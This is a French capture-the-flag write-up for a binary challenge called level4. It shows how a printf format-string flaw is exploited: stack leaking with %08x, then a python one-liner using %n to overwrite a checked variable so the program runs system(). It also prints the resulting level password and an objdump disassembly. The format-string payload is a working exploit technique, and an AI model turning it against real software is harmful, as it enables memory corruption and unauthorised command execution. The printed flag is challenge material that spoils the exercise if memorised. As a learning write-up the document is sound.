 ## Démarches

- Comme au level précédent, il est possible d'afficher la mémoire avec l'appel non formaté de printf :
  - Pour trouver où se fait l'écriture des paramètres, on lance `./level4`, puis sur l'entrée standard :
    `AAA0_%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x`
    > AAA0_b7ff26b0.bffff754.b7fd0ff4.00000000.00000000.bffff718.0804848d.bffff510.00000200.b7fd1ac0.b7ff37d0.30414141
    Le 12ème octet affiche `30414141` soit notre chaîne `AAA0` (inversée car little endian)
  
  - Avant l'appel système, une comparaison est faite avec la variable à l'adresse `0x8049810` qui contient *0x1025544* soit *16930116* en décimal
  - Le fgets est limité à 512 caractères, on utilise donc l'option **padding** de printf pour écrire suffisamment de caractères pour obtenir la bonne valeur, et on exploite les caratèristiques du formateur **%x** puisqu'il affiche la valeur qu'il cible sur la pile.
  - `(python -c 'print("\x10\x98\x04\x08"+"%16930112x"+"%12$n")') | ./level4`
    > 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
<br>
----



<!-- - `objdump -d level4`
  ```
    080484a7 <main>:
    80484a7:	55                   	push   %ebp
    80484a8:	89 e5                	mov    %esp,%ebp
    80484aa:	83 e4 f0             	and    $0xfffffff0,%esp
    80484ad:	e8 a5 ff ff ff       	call   8048457 <n>
    80484b2:	c9                   	leave
    80484b3:	c3                   	ret

    08048457 <n>:
    8048457:	55                   	push   %ebp
    8048458:	89 e5                	mov    %esp,%ebp
    804845a:	81 ec 18 02 00 00    	sub    $0x218,%esp
    8048460:	a1 04 98 04 08       	mov    0x8049804,%eax
    8048465:	89 44 24 08          	mov    %eax,0x8(%esp)
    8048469:	c7 44 24 04 00 02 00 	movl   $0x200,0x4(%esp)
    8048470:	00
    8048471:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
    8048477:	89 04 24             	mov    %eax,(%esp)
    804847a:	e8 d1 fe ff ff       	call   8048350 <fgets@plt>
    804847f:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
    8048485:	89 04 24             	mov    %eax,(%esp)
    8048488:	e8 b7 ff ff ff       	call   8048444 <p>
    804848d:	a1 10 98 04 08       	mov    0x8049810,%eax
    8048492:	3d 44 55 02 01       	cmp    $0x1025544,%eax
    8048497:	75 0c                	jne    80484a5 <n+0x4e>
    8048499:	c7 04 24 90 85 04 08 	movl   $0x8048590,(%esp)
    80484a0:	e8 bb fe ff ff       	call   8048360 <system@plt>
    80484a5:	c9                   	leave
    80484a6:	c3                   	ret

    08048444 <p>:
    8048444:	55                   	push   %ebp
    8048445:	89 e5                	mov    %esp,%ebp
    8048447:	83 ec 18             	sub    $0x18,%esp
    804844a:	8b 45 08             	mov    0x8(%ebp),%eax
    804844d:	89 04 24             	mov    %eax,(%esp)
    8048450:	e8 eb fe ff ff       	call   8048340 <printf@plt>
    8048455:	c9                   	leave
    8048456:	c3                   	ret
  ``` -->
